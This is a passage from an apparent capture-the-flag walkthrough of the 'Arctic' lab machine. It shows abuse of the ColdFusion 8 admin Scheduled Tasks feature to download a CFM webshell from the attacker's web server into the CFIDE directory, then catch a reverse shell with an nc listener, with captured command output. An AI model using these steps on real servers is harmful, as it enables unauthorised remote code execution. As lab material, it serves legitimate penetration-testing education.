 It logs in! One thing that is tricky though. If I watch Burp, I’ll see that
just sitting on the login screen, the form refreshed every 30 seconds or so,
including a new salt. If the salt doesn’t match the current salt on the
server, it is rejected, so this all has to be done quickly. That said, it
wouldn’t be hard to automate with Python or a TamperMonkey script, to do
manually on a more responsive application.

#### Upload Reverse Shell

I’ll follow the steps outlined
[here](https://nets.ec/Coldfusion_hacking#Writing_Shell_to_File) to write a
shell to Arctic. First navigate to Mappings under Server Settings, and get the
path for `CFIDE`, `C:\ColdFusion8\wwwroot\CFIDE`:

![image-20200513082205473](https://0xdfimages.gitlab.io/img/image-20200513082205473.png)

Now back on the main admin page, I’ll go to Debugging & Logging > Scheduled
Tasks:

![image-20200513082355981](https://0xdfimages.gitlab.io/img/image-20200513082355981.png)

I’ll clikc Schedule New Task, and provide:

  * `Task Name`: Anything I want
  * `URL`: URL I control from which to get a CFM shell. Turns out Kali has a CFM webshell in `/usr/share/webshells/cfm`. I started a Python webserver in that directory.
  * `Publish`: Check the “Save output to a file” box.
  * `File`: The path I got from the mappings tab, plus the name of the shell and `.cfm`.

![image-20200513085543130](https://0xdfimages.gitlab.io/img/image-20200513085543130.png)

On hitting Submit, it shows the task, and I can then click the document with
the green circle to run the task now:

![image-20200513083108260](https://0xdfimages.gitlab.io/img/image-20200513083108260.png)

There’s contact at my webserver:

    
    
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.11 - - [13/May/2020 08:46:34] "GET /cfexec.cfm HTTP/1.1" 200 -
    

Now if I refresh `http://10.10.10.11:8500/CFIDE/`, I see the shell:

![image-20200513090504605](https://0xdfimages.gitlab.io/img/image-20200513090504605.png)

#### Execute Shell

Clicking on the `.jsp` returns a shell at my `nc` listener:

    
    
    root@kali# rlwrap nc -nvlp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.11.
    Ncat: Connection from 10.10.10.11:49774.
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    